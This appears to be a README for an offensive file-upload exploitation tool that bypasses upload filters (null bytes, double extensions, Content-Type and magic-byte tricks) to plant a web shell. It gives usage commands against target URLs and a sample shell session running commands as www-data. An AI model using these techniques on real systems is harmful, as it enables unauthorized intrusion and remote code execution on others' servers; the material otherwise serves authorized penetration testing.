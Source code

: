 👻 File_Uploader – File Upload Exploitation Tool

📝 Description

File_Uploader is a powerful file upload exploitation and fuzzing tool designed for penetration testers, bug bounty hunters, and security researchers.
It automates testing of file upload vulnerabilities, including:
File extension fuzzing (php, asp, jsp, config, etc.)
Special character injection in filenames (null bytes, slashes, etc.)
Content-Type header fuzzing to bypass MIME filters
Magic bytes injection to trick server-side file type validation
Automatic web shell detection & interactive command execution
This tool is built to identify misconfigurations, whitelist bypasses, and RCE opportunities from vulnerable upload forms.

🚀 Features

✅ Extension fuzzing with built-in categories or custom wordlists

✅ Double & reverse extension attacks

✅ Special characters injection (%00, %0a, : etc.)

✅ Content-Type header fuzzing (use custom list or defaults)

✅ Magic bytes injection (prepend real image headers)

✅ Auto-detect uploaded shells and spawn interactive shell

✅ Beautiful color-coded results table with rich

📦 Installation
git clone https://github.com/YOURUSERNAME/file_uploader.git
cd file_uploader
pip install -r requirements.txt


Requirements:
Python 3.x
requests
rich
Install dependencies:
pip install requests rich

🛠️ Usage
python3 file_uploader.py --upload-url http://target/upload.php --base-url http://target

Examples:
# 1. Fuzz using built-in PHP extension list
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --category php

# 2. Use custom wordlist of extensions
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --wordlist /path/to/wordlist.txt

# 3. Fuzz Content-Type headers automatically
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --fuzz-content-type

# 4. Use Magic Bytes injection (prepend real image headers)
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --magic-bytes

# 5. Combine all (extension + content-type + magic bytes)
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --category php --fuzz-content-type --magic-bytes

⚙️ Options
Flag	Description
--upload-url	Target file upload handler (e.g. http://host/upload.php)
--base-url	Base URL to access uploaded files (e.g. http://host)
--category	Extension category to test (php, asp, jsp, cfm, node, config, other, all)
--wordlist	Path to custom wordlist of extensions (overrides --category)
--fuzz-content-type	Enable fuzzing with multiple Content-Type headers (default uses image/* types)
--content-type-list	Path to custom list of content types
--magic-bytes	Enable Magic Bytes injection (prepend real image headers: PNG, GIF, JPEG)

🎨 Output

Green: Successful upload + working RCE (web shell detected)
Yellow: Upload succeeded but no RCE detected
Red: Upload failed

When a shell is found, the tool offers an interactive shell:
[*] Web shell available at: http://target/profile_images/shell.php
shell> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
shell> uname -a
Linux target 5.4.0-81-generic ...

🧠 How It Works

Generates filename variants (double/reverse extension + special chars)
Uploads each payload with various Content-Types
(Optional) Prepend Magic Bytes to fool content validation
Checks if upload succeeded
Tests RCE by executing id
Displays results in a colorful table

⚠️ Disclaimer

This tool is for educational and authorized penetration testing purposes only.
Do not use it on systems you do not own or have explicit permission to test.

🏴‍☠️ Author
   Gh0stSh3ll5619
👻 Ghostops-Security
